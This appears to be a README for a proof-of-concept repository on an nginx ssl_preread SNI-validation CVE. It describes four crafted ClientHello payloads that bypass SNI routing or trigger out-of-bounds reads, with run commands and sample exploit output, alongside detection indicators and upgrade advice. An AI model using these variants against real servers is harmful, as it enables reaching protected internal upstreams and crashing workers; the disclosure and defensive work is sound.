

<div align="center">

# CVE-2026-123640

### nginx — `ssl_preread` Insufficient TLS ClientHello Validation


</div>

---

## Overview

nginx's `ssl_preread` module extracts the SNI hostname from a TLS ClientHello without fully validating the `server_name` extension structure. Crafted inputs — duplicate name entries, oversized name lengths, NUL bytes, or trailing FQDN dots — cause nginx to read the wrong offset in the extension, routing the connection to the unintended upstream pool or, in some cases, dereferencing out-of-bounds memory.

| Field | Value |
|---|---|
| **CVE** | CVE-2026-123640 |
| **CVSS 3.1** | `5.3 Medium` — `AV:N/AC:H/PR:N/UI:N/S:U/C:H/I:N/A:L` |
| **CWE** | CWE-20 (Improper Input Validation) |
| **Component** | `ngx_stream_ssl_preread_module` |
| **Affected** | nginx 1.15.2 – 1.31.8 |
| **Fixed** | nginx 1.30.7 / 1.31.9 |
| **Auth Required** | None |
| **Disclosed** | 2026-11-18 |

---

## Vulnerability Details

`ssl_preread` extracts the SNI hostname from TLS ClientHello without fully validating the `server_name` extension structure. The following crafted ClientHellos trigger misrouting or out-of-bounds reads:

| Payload | Effect |
|---|---|
| Duplicate name entries | nginx reads second name, wrong offset parsed |
| Name length > actual data | Out-of-bounds buffer read in extension parser |
| NUL bytes in name | Hostname matching uses wrong length |
| Trailing FQDN dot | Routing maps `internal.test.` to wrong pool |

---

## Attack Flow



---

## PoC Usage

> **Warning:** Lab environment only. Tests routing bypass and OOB read variants.

### Setup

```bash
docker compose up --build -d
sleep 3
```

Lab routing:
- `internal.test` → internal pool (POOL=INTERNAL)
- `default` / other → public pool (POOL=PUBLIC)

### Run all bypass variants

```bash
python3 poc.py
```

Expected output — vulnerable nginx:
```
[*] target: 127.0.0.1:9443

Variant: duplicate_names
  ClientHello: duplicate server_name entries [internal.test, public.test]
  → Routed to: INTERNAL  [BYPASS: sent public SNI, reached internal pool]

Variant: oversized_length
  ClientHello: name_length > actual data (OOB read)
  → Worker returned error or crashed

Variant: nul_byte
  ClientHello: server_name = "public\x00internal.test"
  → Routed to: INTERNAL  [BYPASS via NUL byte]

Variant: fqdn_dot
  ClientHello: server_name = "internal.test."
  → Routed to: INTERNAL  [BYPASS via trailing dot]

[!] VULNERABLE — 3 routing bypass(es) detected
```

### Individual variants

```bash
python3 poc.py --variant duplicate_names
python3 poc.py --variant oversized_length
python3 poc.py --variant nul_byte
python3 poc.py --variant fqdn_dot
```

### Available flags

| Flag | Description |
|---|---|
| `--host HOST` | nginx host (default: `127.0.0.1`) |
| `--port PORT` | Stream port (default: `9443`) |
| `--variant NAME` | Test specific variant (default: all) |
| `--target-sni SNI` | Target SNI to reach (default: `internal.test`) |

### Expected output — patched build

```bash
sed -i 's/nginx:1.31.8/nginx:1.31.9/' nginx/Dockerfile
docker compose build --no-cache nginx && docker compose up -d
python3 poc.py
# All variants routed correctly to public pool
# [+] NOT vulnerable
```

---

## Detection

| Indicator | Notes |
|---|---|
| Unexpected connections to internal pool | Backend access log: connections from unexpected clients |
| Malformed TLS ClientHello | Network capture: oversized `server_name` length fields |
| NUL bytes in SNI hostname | TLS inspection: SNI contains embedded `\x00` |

---

## Impact

An attacker that can reach the nginx stream port can bypass SNI-based routing controls and connect to protected upstream pools that should only be reachable via specific hostnames. In the out-of-bounds read case the worker may crash, resulting in a DoS.

---

## Remediation

Upgrade to **nginx 1.30.7** or **1.31.9**.

| Action | Detail |
|---|---|
| Upgrade nginx | 1.30.7 (stable) or 1.31.9 (mainline) |
| Backend access controls | Do not rely solely on nginx SNI routing for access control |
| Monitor routing | Alert on internal pool connections from unexpected sources |

---

## References

- nginx Security Advisories: https://nginx.org/en/security_advisories.html
- CWE-20: https://cwe.mitre.org/data/definitions/20.html
- CVE Record: https://www.cve.org/CVERecord?id=CVE-2026-123640

---

> **Disclaimer:** For authorized security research and controlled lab use only. MIT License.